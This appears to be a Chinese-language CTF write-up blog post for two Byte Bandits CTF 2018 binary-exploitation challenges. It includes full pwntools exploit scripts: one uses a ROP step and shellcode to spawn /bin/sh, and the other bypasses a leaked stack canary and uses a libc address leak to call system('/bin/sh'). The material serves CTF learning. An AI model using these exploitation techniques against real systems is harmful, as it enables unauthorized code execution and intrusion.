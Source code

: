 ```yaml
---
layout:		post
title:		Byte Bandits CTF 2018部分writeup
author:		wooy0ung
tags:		pwn
category: 	writeup
---
```



>[索引目录]  
>0x001 ROP Crazy  
>0x002 Tale of a Twisted Mind  
<!-- more -->


## 0x001 ROP Crazy

程序开辟了0x1000的rwx内存空间，并将
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-001.png)

首地址被打印出来了
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-002.png)

再读8 byte，明显不够放入shellcode，做rop修改读入长度为0xff byte
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x001-003.png)

exp.py
```
from pwn import *

context.arch = "amd64"

s = process("./gg")
elf = ELF("./gg")

sh_addr = int(s.recvline(),16)

s.recv(0x1000)

s.send(p64(sh_addr))

p = asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
""")

s.send(p)

p = "\x90"*0xc8
p += asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
mov rbx,0x0068732f6e69622f
push rbx
push rsp
pop rdi
xor rsi,rsi
push rsi
pop rdx
push rdx
pop rax
mov al,0x3b
syscall
mov al,0x3c
xor rdi,rdi
syscall
""")

s.send(p)
s.interactive()
```


## 0x002 Tale of a Twisted Mind

首先需要绕过bot detected
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-001.png)

只是一个简单计算，但要重复312次
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-002.png)

还要绕过canary
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-003.png)

看下程序流程，似乎没有info leak漏洞
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-004.png)

再看看远程，似乎有点不同
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-005.png)
远程的程序是patched过的，直接把canary给我们了

猜测是把该处patched成dword_804AA28
![](/assets/img/writeup/2018-04-10-bytebanditsctf-2018-writeup/0x002-006.png)

exp.py
```
from pwn import *

context.log_level = "debug"

#r = remote("34.218.199.37", 6000)
s = process("./twisted_patched", env={"LD_PRELOAD":"./libc.so.6"})
elf = ELF("./twisted_patched")
libc = ELF("./libc.so.6")

def debug(addr):
    raw_input('debug:')
    gdb.attach(s, "b *" + addr)

for i in xrange(312):
	question = s.recvuntil("\n").split("=")[0]
	answer  = eval(question)
	print question, answer
	s.sendline(str(answer))

puts_plt = elf.plt["puts"]
printf_got = elf.got["printf"]
fgets_buff = 0x08048979
bss = 0x804aa58

system_off = libc.symbols["system"]
printf_off = libc.symbols["printf"]
binsh_off = libc.search("/bin/sh").next()

s.recvuntil("Bot Verification Complete!\n")
canary = u32(s.recv(4))
log.info('canary: %#x' % canary)

s.recv(1)
s.send("1")
p = "A"*0x10
p += p32(canary)
p += p32(bss)
p += p32(puts_plt)
p += p32(fgets_buff)
p += p32(printf_got)

s.sendline(p)
printf_addr = u32(s.recv(4))

libc_base = printf_addr - printf_off
system_addr = system_off + libc_base
binsh_addr = binsh_off + libc_base

p = "A"*0x10
p += p32(canary)
p += p32(bss)
p += p32(system_addr)
p += p32(fgets_buff)
p += p32(binsh_addr)

s.sendline(p)
s.interactive()
```